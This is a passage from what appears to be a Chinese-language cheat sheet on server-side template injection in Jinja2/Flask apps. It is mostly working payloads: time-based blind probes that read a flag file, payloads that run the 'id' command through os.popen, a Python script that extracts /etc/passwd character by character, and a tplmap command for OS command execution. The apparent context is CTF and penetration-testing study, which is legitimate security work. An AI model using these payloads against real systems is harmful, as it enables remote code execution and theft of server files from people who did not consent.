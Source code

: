 - **无回显**

  复制

  ```
  {{yyy.__init__.__globals__.__builtins__|attr('__getitem_')('eval')('__import__("time").sleep(3) if open("/app/flag.txt").read()[0]=="f" else 1')}}
  
  {%if session.update({'f':lipsum.__globals__.__os__.__popen__('id').read()})%}{%endif%}
  
  {%include session.update({'f':lipsum.__globals__.__os__.__popen__('id').read()})%}
  ```

  盲注：

  复制

  ```
  import requests
  from string import printable as pt
  
  host = ''
  res  = ''
  
  for i in range(0,40):
      for c in pt:
          payload = '{{(request.__class__.__mro__[2].__subclasses__[334].__init__.__globals__["__builtins__"]["file"]("/etc/passwd").read()|string).index("%c",%d,%d)}}' % (c,i,i+1) 
          param = {
              "name":payload
          }
          req = requests.get(host,params=param)
  
          if req.status_code == 200:
              res += c
              break
      print(res)
  ```



#### 自动化工具

**tplmap**: https://github.com/epinna/tplmap

```
/tplmap.py --os-cmd -u 'http://www.target.com/page?name=John'
```

#### 参考文

[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)

[SSTI漏洞学习 (上)——基础知识和一些不常见的模板引擎介绍](https://www.anquanke.com/post/id/246093)



#### Python格式化字符串漏洞

